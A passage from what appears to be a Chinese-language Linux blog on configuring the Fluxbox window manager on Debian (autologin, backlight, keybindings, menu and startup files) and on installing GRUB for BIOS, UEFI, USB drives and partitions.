<h3 id="安装X窗口管理器"><a href="#安装X窗口管理器" class="headerlink" title="安装X窗口管理器"></a>安装X窗口管理器</h3><p>首先更新系统，然后安装Xorg-xinit和fluxbox窗口管理器。</p>
<figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line">apt-get update &amp;&amp; apt-get dist-upgrade</span><br><span class="line">apt-get install xinit fluxbox</span><br></pre></td></tr></table></figure>
<p>在用户目录新建<code>.xinit</code>文件，并写入 ： <code>exec startfluxbox</code> 。然后下次登录时，命令行输入 <code>startx</code>就能启动Fluxbox wm了。</p>
<h3 id="自动登录tty终端"><a href="#自动登录tty终端" class="headerlink" title="自动登录tty终端"></a>自动登录tty终端</h3><p>编辑<code>/etc/systemd/logind.conf</code> ，将<code>#NAutoVTs=6</code> 改为 <code>NAutoVTs=1</code></p>
<p>然后用<code>systemctl edit getty@tty1</code> 命令在<code>/etc/systemd/system/getty@tty1.service.d/override.conf</code>中生成一个<code>getty@tty1.service.d</code> 文件夹和<code>override.conf</code>文件 。在文件中填入：</p>
<figure class="highlight ini"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br></pre></td><td class="code"><pre><span class="line"><span class="section">[Service]</span></span><br><span class="line"><span class="attr">ExecStart</span>=</span><br><span class="line"><span class="attr">ExecStart</span>=-/usr/sbin/agetty --autologin username --noclear %I <span class="variable">$TERM</span></span><br></pre></td></tr></table></figure>
<h3 id="优化Fluxbox"><a href="#优化Fluxbox" class="headerlink" title="优化Fluxbox"></a>优化Fluxbox</h3><blockquote>
<p>配置 <a href="/www/fluxbox.tar.xz" download="Fluxbox_Config.tar.xz">Fluxbox配置下载</a> </p>
</blockquote>
<h3 id="Fluxbox英特尔显卡调整亮度："><a href="#Fluxbox英特尔显卡调整亮度：" class="headerlink" title="Fluxbox英特尔显卡调整亮度："></a>Fluxbox英特尔显卡调整亮度：</h3><p><code>apt install xbacklight</code></p>
<p>错误处理：<code>No outputs have backlight property</code></p>
<p>新建文件 <code>/etc/X11/xorg.conf.d/20-intel.conf</code></p>
<figure class="highlight x86asm"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br></pre></td><td class="code"><pre><span class="line"><span class="meta">Section</span> <span class="string">"Device"</span></span><br><span class="line">    Identifier  <span class="string">"Intel Graphics"</span> </span><br><span class="line">    Driver      <span class="string">"intel"</span></span><br><span class="line">    <span class="meta">Option</span>      <span class="string">"Backlight"</span>  <span class="string">"intel_backlight"</span></span><br><span class="line">EndSection</span><br></pre></td></tr></table></figure>
<p>注意：<code>intel_backlight</code>是<code>/sys/class/backlight</code>目录中的英特尔显卡文件名。</p>
<p>调整亮度：</p>
<figure class="highlight angelscript"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line">$ xbacklight -inc <span class="number">10</span></span><br><span class="line">$ xbacklight -dec <span class="number">10</span></span><br></pre></td></tr></table></figure>
<h3 id="系统托盘显示无线Wifi："><a href="#系统托盘显示无线Wifi：" class="headerlink" title="系统托盘显示无线Wifi："></a>系统托盘显示无线Wifi：</h3><p>安装Network Manager</p>
<figure class="highlight cmake"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">apt <span class="keyword">install</span> network-manager network-manager-gnome</span><br></pre></td></tr></table></figure>
<p>然后在fluxbox的startup脚本中添加<code>nm-applet&amp;</code>就ok了。</p>
<h3 id="fluxbox-keys设置快捷键"><a href="#fluxbox-keys设置快捷键" class="headerlink" title="~/.fluxbox/keys设置快捷键"></a><code>~/.fluxbox/keys</code>设置快捷键</h3><figure class="highlight properties"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br><span class="line">29</span><br><span class="line">30</span><br><span class="line">31</span><br><span class="line">32</span><br><span class="line">33</span><br><span class="line">34</span><br><span class="line">35</span><br><span class="line">36</span><br><span class="line">37</span><br><span class="line">38</span><br><span class="line">39</span><br><span class="line">40</span><br><span class="line">41</span><br><span class="line">42</span><br><span class="line">43</span><br><span class="line">44</span><br><span class="line">45</span><br><span class="line">46</span><br><span class="line">47</span><br><span class="line">48</span><br><span class="line">49</span><br><span class="line">50</span><br><span class="line">51</span><br><span class="line">52</span><br><span class="line">53</span><br><span class="line">54</span><br><span class="line">55</span><br><span class="line">56</span><br><span class="line">57</span><br><span class="line">58</span><br><span class="line">59</span><br><span class="line">60</span><br><span class="line">61</span><br><span class="line">62</span><br><span class="line">63</span><br><span class="line">64</span><br><span class="line">65</span><br><span class="line">66</span><br><span class="line">67</span><br><span class="line">68</span><br><span class="line">69</span><br><span class="line">70</span><br><span class="line">71</span><br></pre></td><td class="code"><pre><span class="line"><span class="comment">! fluxbox-update_configs added '(workspace=[current])' to (Next|Prev)(Window|Group)</span></span><br><span class="line"><span class="comment">! check lines marked by 'FBCV13' if they are correctly updated</span></span><br><span class="line"><span class="comment">!mouse actions added by fluxbox-update_configs</span></span><br><span class="line"><span class="attr">OnTitlebar</span> <span class="string">Mouse1 :MacroCmd &#123;Focus&#125; &#123;Raise&#125; &#123;ActivateTab&#125;</span></span><br><span class="line"><span class="comment">!mouse actions added by fluxbox-update_configs</span></span><br><span class="line"><span class="attr">OnTitlebar</span> <span class="string">Move1 :StartMoving</span></span><br><span class="line"><span class="attr">OnLeftGrip</span> <span class="string">Move1 :StartResizing bottomleft</span></span><br><span class="line"><span class="attr">OnRightGrip</span> <span class="string">Move1 :StartResizing bottomright</span></span><br><span class="line"><span class="attr">OnWindowBorder</span> <span class="string">Move1 :StartMoving</span></span><br><span class="line"></span><br><span class="line"><span class="comment">!mouse actions added by fluxbox-update_configs</span></span><br><span class="line"><span class="attr">OnTitlebar</span> <span class="string">Mouse2 :StartTabbing</span></span><br><span class="line"></span><br><span class="line"><span class="comment">!mouse actions added by fluxbox-update_configs</span></span><br><span class="line"><span class="attr">OnTitlebar</span> <span class="string">Double Mouse1 :Shade</span></span><br><span class="line"><span class="attr">OnTitlebar</span> <span class="string">Mouse3 :WindowMenu</span></span><br><span class="line"></span><br><span class="line"><span class="comment">!mouse actions added by fluxbox-update_configs</span></span><br><span class="line"><span class="attr">OnWindow</span> <span class="string">Mod1 Mouse1 :MacroCmd &#123;Raise&#125; &#123;Focus&#125; &#123;StartMoving&#125;</span></span><br><span class="line"><span class="attr">OnWindow</span> <span class="string">Mod1 Mouse3 :MacroCmd &#123;Raise&#125; &#123;Focus&#125; &#123;StartResizing BottomRight&#125;</span></span><br><span class="line"></span><br><span class="line"><span class="comment">!mouse actions added by fluxbox-update_configs</span></span><br><span class="line"><span class="attr">OnDesktop</span> <span class="string">Mouse1 :hideMenus</span></span><br><span class="line"><span class="attr">OnDesktop</span> <span class="string">Mouse2 :workspaceMenu</span></span><br><span class="line"><span class="attr">OnDesktop</span> <span class="string">Mouse3 :rootMenu</span></span><br><span class="line"></span><br><span class="line"><span class="attr">Mod1</span> <span class="string">Tab :NextWindow (workspace=[current]) !! FBCV13 !!</span></span><br><span class="line"><span class="attr">Mod1</span> <span class="string">Shift Tab :PrevWindow (workspace=[current]) !! FBCV13 !!</span></span><br><span class="line"><span class="attr">Mod1</span> <span class="string">1 :Workspace 1</span></span><br><span class="line"><span class="attr">Mod1</span> <span class="string">2 :Workspace 2</span></span><br><span class="line"><span class="attr">Mod1</span> <span class="string">3 :Workspace 3</span></span><br><span class="line"><span class="attr">Mod1</span> <span class="string">4 :Workspace 4</span></span><br><span class="line"><span class="attr">Mod1</span> <span class="string">5 :Workspace 5</span></span><br><span class="line"><span class="attr">Mod1</span> <span class="string">6 :Workspace 6</span></span><br><span class="line"><span class="attr">Mod1</span> <span class="string">Escape :MaximizeWindow</span></span><br><span class="line"><span class="comment">#Mod1 F1 :RootMenu</span></span><br><span class="line"><span class="attr">Mod1</span> <span class="string">m :RootMenu</span></span><br><span class="line"></span><br><span class="line"></span><br><span class="line"><span class="comment"># change to a specific workspace</span></span><br><span class="line"><span class="comment">#Mod1 1 :ExecCommand wmctrl -s 0</span></span><br><span class="line"><span class="comment">#Mod1 2 :ExecCommand wmctrl -s 1</span></span><br><span class="line"><span class="comment">#Mod1 3 :ExecCommand wmctrl -s 2</span></span><br><span class="line"><span class="comment">#Mod1 4 :ExecCommand wmctrl -s 3</span></span><br><span class="line"><span class="comment">#Mod1 5 :ExecCommand wmctrl -s 4</span></span><br><span class="line"><span class="comment">#Mod1 6 :ExecCommand wmctrl -s 5</span></span><br><span class="line"></span><br><span class="line"><span class="comment">##### 自定义的快捷键 - Customized</span></span><br><span class="line"><span class="comment">### 这里是Alt键</span></span><br><span class="line"><span class="attr">Mod1</span> <span class="string">q :ExecCommand xfce4-terminal</span></span><br><span class="line"><span class="attr">Mod1</span> <span class="string">w :ExecCommand deadbeef</span></span><br><span class="line"><span class="attr">Mod1</span> <span class="string">e :ExecCommand thunar</span></span><br><span class="line"><span class="attr">Mod1</span> <span class="string">r :ExecCommand firefox</span></span><br><span class="line"><span class="attr">Mod1</span> <span class="string">t :ExecCommand virtualbox</span></span><br><span class="line"><span class="comment"># 窗口全屏、关闭窗口</span></span><br><span class="line"><span class="attr">Mod1</span> <span class="string">f :Fullscreen</span></span><br><span class="line"><span class="attr">Mod1</span> <span class="string">F4 :Close</span></span><br><span class="line"><span class="comment"># 重启fluxbox</span></span><br><span class="line"><span class="attr">Mod1</span> <span class="string">Mod4 p :Restart</span></span><br><span class="line"></span><br><span class="line"><span class="comment">### 这里是Super(开始键)键</span></span><br><span class="line"><span class="comment"># 显示桌面</span></span><br><span class="line"><span class="attr">Mod4</span> <span class="string">d :ShowDesktop</span></span><br><span class="line"><span class="comment"># 最大化、最小化窗口</span></span><br><span class="line"><span class="attr">Mod4</span> <span class="string">Up :MaximizeWindow</span></span><br><span class="line"><span class="attr">Mod4</span> <span class="string">Down :MinimizeWindow</span></span><br><span class="line"><span class="comment"># 收起、放下窗口</span></span><br><span class="line"><span class="attr">Mod4</span> <span class="string">Left :ShadeOn</span></span><br><span class="line"><span class="attr">Mod4</span> <span class="string">Right :ShadeOff</span></span><br><span class="line"><span class="comment"># 安装scrot截屏</span></span><br><span class="line"><span class="attr">Print</span> :<span class="string">ExecCommand scrot</span></span><br></pre></td></tr></table></figure>
<h3 id="fluxbox-menu-设置桌面主菜单-示例"><a href="#fluxbox-menu-设置桌面主菜单-示例" class="headerlink" title="~/.fluxbox/menu 设置桌面主菜单(示例)"></a><code>~/.fluxbox/menu</code> 设置桌面主菜单(示例)</h3><figure class="highlight cs"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br><span class="line">29</span><br><span class="line">30</span><br><span class="line">31</span><br><span class="line">32</span><br><span class="line">33</span><br><span class="line">34</span><br><span class="line">35</span><br><span class="line">36</span><br><span class="line">37</span><br><span class="line">38</span><br></pre></td><td class="code"><pre><span class="line">[<span class="meta">begin</span>] (Fluxbox Menu)</span><br><span class="line"><span class="meta"># 格式：</span></span><br><span class="line"><span class="meta">#[submenu] (Label)</span></span><br><span class="line"><span class="meta"># [exec] (Label) &#123;Command&#125;</span></span><br><span class="line"><span class="meta">#[end]</span></span><br><span class="line"><span class="meta">#[exec] (Play music) &#123;deadbeef&#125;</span></span><br><span class="line">[<span class="meta">exec</span>] (File Manager) &#123;thunar&#125;</span><br><span class="line">[<span class="meta">submenu</span>] (Browsers)</span><br><span class="line"> [<span class="meta">exec</span>] (Firefox) &#123;firefox&#125;</span><br><span class="line"> [<span class="meta">exec</span>] (Chromium) &#123;chromium&#125;</span><br><span class="line">[<span class="meta">end</span>]</span><br><span class="line">[<span class="meta">submenu</span>] (Appearance)</span><br><span class="line">[<span class="meta">config</span>] (Configure)</span><br><span class="line"> [<span class="meta">submenu</span>] (Menu size) &#123;Choose Size...&#125;</span><br><span class="line"> [<span class="meta">stylesdir</span>] (~/.fluxbox/styles)</span><br><span class="line"> [<span class="meta">restart</span>] (Apply style)</span><br><span class="line"> [<span class="meta">end</span>]</span><br><span class="line">[<span class="meta">submenu</span>] (Conky size) &#123;Choose Size...&#125;</span><br><span class="line"> [<span class="meta">exec</span>] (size <span class="number">10</span>) &#123;~/.fluxbox/scripts/conky/conky<span class="number">-10</span>&#125;</span><br><span class="line"> [<span class="meta">exec</span>] (size <span class="number">12</span>) &#123;~/.fluxbox/scripts/conky/conky<span class="number">-12</span>&#125;</span><br><span class="line"> [<span class="meta">exec</span>] (size <span class="number">14</span>) &#123;~/.fluxbox/scripts/conky/conky<span class="number">-14</span>&#125;</span><br><span class="line"> [<span class="meta">exec</span>] (size <span class="number">16</span>) &#123;~/.fluxbox/scripts/conky/conky<span class="number">-16</span>&#125;</span><br><span class="line"> [<span class="meta">exec</span>] (size <span class="number">18</span>) &#123;~/.fluxbox/scripts/conky/conky<span class="number">-18</span>&#125;</span><br><span class="line"> [<span class="meta">exec</span>] (size <span class="number">20</span>) &#123;~/.fluxbox/scripts/conky/conky<span class="number">-20</span>&#125;</span><br><span class="line">[<span class="meta">end</span>]</span><br><span class="line">  [<span class="meta">exec</span>] (Theme &amp; Font) &#123;lxappearance&#125;</span><br><span class="line">[<span class="meta">end</span>]</span><br><span class="line"><span class="meta">#[exec] (X-terminal) &#123;Eterm -c green -t ml-theme-small -g 90x23 -L 10000 -O --shade 80&#125;</span></span><br><span class="line">[<span class="meta">exec</span>] (Xfce4-terminal) &#123;xfce4-terminal&#125;</span><br><span class="line">[<span class="meta">exec</span>] (OBS) &#123;obs&#125;</span><br><span class="line">[<span class="meta">exec</span>] (OSD-Lyrics) &#123;osdlyrics&#125;</span><br><span class="line"> [<span class="meta">separator</span>] </span><br><span class="line">  [<span class="meta">restart</span>] (Restart Fluxbox)</span><br><span class="line">  [<span class="meta">exit</span>] (Exit Session) </span><br><span class="line">  [<span class="meta">exec</span>] (Reboot) &#123;sudo shutdown -r now&#125;</span><br><span class="line">  [<span class="meta">exec</span>] (Poweroff) &#123;sudo shutdown -P now&#125;</span><br><span class="line">[<span class="meta">end</span>]</span><br><span class="line">[<span class="meta">end</span>]</span><br></pre></td></tr></table></figure>
<h3 id="fluxbox-startup-设置自启动项目，记得给予可执行权限！"><a href="#fluxbox-startup-设置自启动项目，记得给予可执行权限！" class="headerlink" title="~/.fluxbox/startup 设置自启动项目，记得给予可执行权限！"></a><code>~/.fluxbox/startup</code> 设置自启动项目，记得给予可执行权限！</h3><figure class="highlight vala"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br><span class="line">29</span><br><span class="line">30</span><br><span class="line">31</span><br><span class="line">32</span><br><span class="line">33</span><br><span class="line">34</span><br><span class="line">35</span><br><span class="line">36</span><br><span class="line">37</span><br><span class="line">38</span><br></pre></td><td class="code"><pre><span class="line"><span class="meta">#!/bin/bash</span></span><br><span class="line"><span class="meta">#</span></span><br><span class="line"><span class="meta"># fluxbox startup-script:</span></span><br><span class="line"><span class="meta">#</span></span><br><span class="line"><span class="meta"># Lines starting with a '#' are ignored.</span></span><br><span class="line"></span><br><span class="line"><span class="meta"># Customize Here</span></span><br><span class="line">/usr/bin/fbsetbg -a ~/.fluxbox/backgrounds/music-white-black-hd-wallpaper.jpg&amp;</span><br><span class="line">conky&amp;</span><br><span class="line">fcitx&amp;</span><br><span class="line"><span class="meta"># 联网</span></span><br><span class="line">nm-applet&amp;</span><br><span class="line"></span><br><span class="line"><span class="meta"># Change your keymap:</span></span><br><span class="line">xmodmap <span class="string">"/home/jessie/.Xmodmap"</span></span><br><span class="line"></span><br><span class="line"><span class="meta"># Applications you want to run with fluxbox.</span></span><br><span class="line"><span class="meta"># MAKE SURE THAT APPS THAT KEEP RUNNING HAVE AN ''&amp;'' AT THE END.</span></span><br><span class="line"><span class="meta">#</span></span><br><span class="line"><span class="meta"># unclutter -idle 2 &amp;</span></span><br><span class="line"><span class="meta"># wmnd &amp;</span></span><br><span class="line"><span class="meta"># wmsmixer -w &amp;</span></span><br><span class="line"><span class="meta"># idesk &amp;</span></span><br><span class="line"><span class="meta">#</span></span><br><span class="line"><span class="meta"># Debian-local change:</span></span><br><span class="line"><span class="meta">#   - fbautostart has been added with a quick hack to check to see if it</span></span><br><span class="line"><span class="meta">#     exists. If it does, we'll start it up by default.</span></span><br><span class="line">which fbautostart &gt; /dev/<span class="literal">null</span></span><br><span class="line"><span class="keyword">if</span> [ $? -eq <span class="number">0</span> ]; then</span><br><span class="line">    fbautostart</span><br><span class="line">fi</span><br><span class="line"></span><br><span class="line"><span class="meta"># And last but not least we start fluxbox.</span></span><br><span class="line"><span class="meta"># Because it is the last app you have to run it with ''exec'' before it.</span></span><br><span class="line"></span><br><span class="line"><span class="meta"># exec fluxbox</span></span><br><span class="line"><span class="meta"># or if you want to keep a log:</span></span><br><span class="line">exec fluxbox -log <span class="string">"/home/jessie/.fluxbox/log"</span></span><br></pre></td></tr></table></figure>
<p>命令行登录后自动启动图形界面(zsh为例)，编辑<code>~/.zprofile</code>：</p>
<figure class="highlight routeros"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br></pre></td><td class="code"><pre><span class="line"><span class="builtin-name">export</span> <span class="attribute">QT_QPA_PLATFORMTHEME</span>=qt5ct</span><br><span class="line"></span><br><span class="line"><span class="keyword">if</span> [ -z <span class="string">"<span class="variable">$DISPLAY</span>"</span> ] &amp;&amp; [ -n <span class="string">"<span class="variable">$XDG_VTNR</span>"</span> ] &amp;&amp; [ <span class="string">"<span class="variable">$XDG_VTNR</span>"</span> -eq 1 ]; then</span><br><span class="line">  startx</span><br><span class="line">fi</span><br></pre></td></tr></table></figure>
<h3 id="安装xfce4"><a href="#安装xfce4" class="headerlink" title="安装xfce4"></a>安装xfce4</h3><h4 id="Xfce4提示缺少dbus-launcher"><a href="#Xfce4提示缺少dbus-launcher" class="headerlink" title="Xfce4提示缺少dbus-launcher:"></a>Xfce4提示缺少dbus-launcher:</h4><p><code>apt install dbus-x11</code></p>
<h4 id="Xfce4锁屏"><a href="#Xfce4锁屏" class="headerlink" title="Xfce4锁屏"></a>Xfce4锁屏</h4><p><code>dm-tool lock</code></p>
<h2 id="系统个性化——Customize"><a href="#系统个性化——Customize" class="headerlink" title="系统个性化——Customize"></a>系统个性化——Customize</h2><h3 id="Linux自定义安装"><a href="#Linux自定义安装" class="headerlink" title="Linux自定义安装"></a>Linux自定义安装</h3><h4 id="GRUB安装"><a href="#GRUB安装" class="headerlink" title="GRUB安装"></a>GRUB安装</h4><p>通用知识点：</p>
<ul>
<li>在你运行 <code>grub-install</code> 的时候使用 <code>--removable</code> 选项，就可以让 GRUB 把它的 EFI 映像写入到 <code>/boot/efi/EFI/BOOT/BOOTX64.efi</code>，这样启动固件就可以在没有 UEFI 启动条目的的情况下找到。 </li>
</ul>
<h5 id="Legacy-Boot——BIOS启动"><a href="#Legacy-Boot——BIOS启动" class="headerlink" title="Legacy Boot——BIOS启动"></a>Legacy Boot——BIOS启动</h5><ul>
<li>安装GRUB：<code>grub-install --target=i386-pc /dev/sdX</code></li>
</ul>
<h5 id="UEFI——UEFI启动"><a href="#UEFI——UEFI启动" class="headerlink" title="UEFI——UEFI启动"></a>UEFI——UEFI启动</h5><blockquote>
<p>要从一个磁盘上使用 UEFI 模式启动，磁盘上必须要先有一个 EFI 分区。按照 <a href="https://wiki.archlinux.org/index.php/EFI_system_partition#Check_for_an_existing_partition" target="_blank" rel="noopener">EFI system partition#Check for an existing partition</a> 上说的来查看你是否已经有一个 EFI 分区，如若没有，就创建一个。</p>
</blockquote>
<ul>
<li><p>磁盘开头添加BIOS保留区</p>
<p>如果是在GPT磁盘安装UEFI启动Linux，建议在磁盘开头新建一个BIOS启动保留分区，避免被误认为MBR启动引导分区而遭到破坏。</p>
<figure class="highlight angelscript"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br></pre></td><td class="code"><pre><span class="line">安装 GRUB 前，在一个没有文件系统的磁盘上，创建一个<span class="number">1</span>兆字节（使用 fdisk 或 gdisk 和参数+<span class="number">1</span>M）的分区（保留的BIOS启动分区），将分区类型设置为 GUID <span class="number">21686148</span><span class="number">-6449</span><span class="number">-6E6</span>F<span class="number">-744E-656564454649</span>。 </span><br><span class="line">    对于 fdisk，选择分区类型 BIOS boot。</span><br><span class="line">    对于 gdisk，选择分区类型代码 ef02。</span><br><span class="line">    对于 parted， 在新创建的分区上设置/激活 bios_grub 标记。</span><br></pre></td></tr></table></figure>
</li>
<li><p>安装GRUB：<code>grub-install --target=x86_64-efi --efi-directory=esp --bootloader-id=GRUB</code> </p>
<p><strong>提示：</strong> 如果你使用了 <code>--removable</code> 选项，那 GRUB 将被安装到 <code>*esp*/EFI/BOOT/BOOTX64.EFI</code> （当使用 <code>i386-efi</code> 时是 <code>*esp*/EFI/BOOT/BOOTIA32.EFI</code>），此时即使 EFI 变量被重设或者你把这个驱动器接到其他电脑上，你仍可从这个驱动器上启动。通常来说，你只要像操作 BIOS  设备一样在启动时选择这个驱动器就可以了。如果和 Windows 一起多系统启动，注意 Windows 通常会在那里安装一个 EFI  可执行程序，这只是为了重建 Windows 的 UEFI 启动项。</p>
<p><strong>注意：</strong></p>
<ul>
<li><code>--efi-directory</code> 和 <code>--bootloader-id</code> 是 GRUB UEFI 特有的。<code>--efi-directory</code> 替代了已经废弃的 <code>--root-directory</code>。</li>
<li>您可能注意到在 <code>grub-install</code> 命令中没有一个 <device_path> 选项，例如 <code>/dev/sda</code>。事实上即使提供了 <device_path>，也会被 GRUB 安装脚本忽略，因为 UEFI 启动加载器不使用 MBR 启动代码或启动扇区。</li>
<li>确保 <code>grub-install</code> 命令是在你想要用 GRUB 引导的那个系统上运行的。也就是说如果你是用安装介质启动进入了安装环境中，你需要在 <code>chroot</code> 之后再运行 <code>grub-install</code>。如果因为某些原因不得不在安装的系统之外运行 <code>grub-install</code>，在后面加上 <code>--boot-directory=</code> 选项来指定挂载 <code>/boot</code> 目录的路径，例如 <code>--boot-directory=/mnt/boot</code>。</li>
</ul>
</li>
</ul>
<h5 id="安装到-U-盘"><a href="#安装到-U-盘" class="headerlink" title="安装到 U 盘"></a>安装到 U 盘</h5><h6 id="BIOS"><a href="#BIOS" class="headerlink" title="BIOS"></a>BIOS</h6><p>假设 U 盘的第一个分区是 FAT32格式，其分区是/dev/sdy1</p>
<figure class="highlight vala"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br></pre></td><td class="code"><pre><span class="line"><span class="meta"># mkdir -p /mnt/usb</span></span><br><span class="line"><span class="meta"># mount /dev/sdy1 /mnt/usb</span></span><br><span class="line"><span class="meta"># grub-install --target=i386-pc --debug --boot-directory=/mnt/usb/boot /dev/sdy</span></span><br><span class="line"><span class="meta"># grub-mkconfig -o /mnt/usb/boot/grub/grub.cfg</span></span><br></pre></td></tr></table></figure>
<p>可以选择将配置备份到 <code>grub.cfg</code>：</p>
<figure class="highlight vala"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br></pre></td><td class="code"><pre><span class="line"><span class="meta"># mkdir -p /mnt/usb/etc/default</span></span><br><span class="line"><span class="meta"># cp /etc/default/grub /mnt/usb/etc/default</span></span><br><span class="line"><span class="meta"># cp -a /etc/grub.d /mnt/usb/etc</span></span><br><span class="line"><span class="meta"># sync; umount /mnt/usb</span></span><br></pre></td></tr></table></figure>
<h6 id="EFI"><a href="#EFI" class="headerlink" title="EFI"></a>EFI</h6><p>在你运行 <code>grub-install</code> 的时候使用 <code>--removable</code> 选项，就可以让 GRUB 把它的 EFI 映像写入到 <code>/boot/efi/EFI/BOOT/BOOTX64.efi</code>，这样启动固件就可以在没有 UEFI 启动条目的的情况下找到。</p>
<h5 id="安装到分区上或者无分区磁盘上"><a href="#安装到分区上或者无分区磁盘上" class="headerlink" title="安装到分区上或者无分区磁盘上"></a>安装到分区上或者无分区磁盘上</h5><p><strong>警告：</strong> GRUB <strong>极不推荐</strong> 将其安装到分区启动扇区或者无分区磁盘上（Grub Legacy 和 syslinux 相反）。这种安装方式不安全，当升级时可能会损坏。Arch 开发人员也 <strong>不支持</strong> 这种方式.</p>
<p>下面的命令将会将 GRUB 安装到分区扇区或者无分区磁盘（也称作超级软盘），或者安装到软盘上。下面例子中以 <code>/dev/sdaX</code> 作为 <code>/boot</code> 分区。 </p>
<figure class="highlight vala"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br></pre></td><td class="code"><pre><span class="line"><span class="meta"># chattr -i /boot/grub/i386-pc/core.img</span></span><br><span class="line"><span class="meta"># grub-install --target=i386-pc --debug --force /dev/sdaX</span></span><br><span class="line"><span class="meta"># chattr +i /boot/grub/i386-pc/core.img</span></span><br></pre></td></tr></table></figure>
<p><strong>注意：</strong></p>
<ul>
<li><code>/dev/sdaX</code> 仅用作示例。</li>
<li><code>--target=i386-pc</code> 令 <code>grub-install</code> 仅为 BIOS 系统安装。建议总是使用这个选项来排除 grub-install 命令中的模糊性。</li>
</ul>
<p>你应该使用 <code>--force</code> 选项来启用对 blocklists（块列表）的支持，而不应该使用 <code>--grub-setup=/bin/true</code>，后者类似于单纯地生成 <code>core.img</code>。</p>
<p><code>grub-install</code> 会生成以下警告，来提醒你哪里有可能出现问题。</p>
<figure class="highlight sql"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br></pre></td><td class="code"><pre><span class="line">/sbin/grub-setup: warn: Attempting to <span class="keyword">install</span> GRUB <span class="keyword">to</span> a partitionless disk <span class="keyword">or</span> <span class="keyword">to</span> a partition. This <span class="keyword">is</span> a BAD idea.</span><br><span class="line">/sbin/grub-setup: warn: Embedding <span class="keyword">is</span> <span class="keyword">not</span> possible. GRUB can <span class="keyword">only</span> be installed <span class="keyword">in</span> this setup <span class="keyword">by</span> <span class="keyword">using</span> blocklists.</span><br><span class="line">                        However, blocklists <span class="keyword">are</span> UNRELIABLE <span class="keyword">and</span> their <span class="keyword">use</span> <span class="keyword">is</span> discouraged.</span><br></pre></td></tr></table></figure>
<p>不使用 <code>--force</code> 选项则可能会出现以下错误，并且 <code>grub-setup</code> 不会将启动代码安装到启动扇区上：</p>
<figure class="highlight groovy"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line"><span class="regexp">/sbin/</span>grub-<span class="string">setup:</span> <span class="string">error:</span> will not proceed with blocklists</span><br></pre></td></tr></table></figure>
<p>而指定了 <code>--force</code>，会出现：</p>
<figure class="highlight routeros"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">Installation finished. <span class="literal">No</span> <span class="builtin-name">error</span> reported.</span><br></pre></td></tr></table></figure>
<p><code>grub-setup</code> 默认不启用这个选项，是因为在分区或者无分区磁盘上，<code>grub</code> 依赖于嵌入分区引导扇区的块列表 (blocklists) 来定位 <code>/boot/grub/i386-pc/core.img</code> 和前缀目录 <code>/boot/grub</code>。而 <code>core.img</code> 在分区上的扇区位置很有可能随着分区文件系统的更改而变化（复制文件，删除文件等）。详情请参考 <a href="https://bugzilla.redhat.com/show_bug.cgi?id=728742" target="_blank" rel="noopener">https://bugzilla.redhat.com/show_bug.cgi?id=728742</a> 和 <a href="https://bugzilla.redhat.com/show_bug.cgi?id=730915" target="_blank" rel="noopener">https://bugzilla.redhat.com/show_bug.cgi?id=730915</a>.</p>
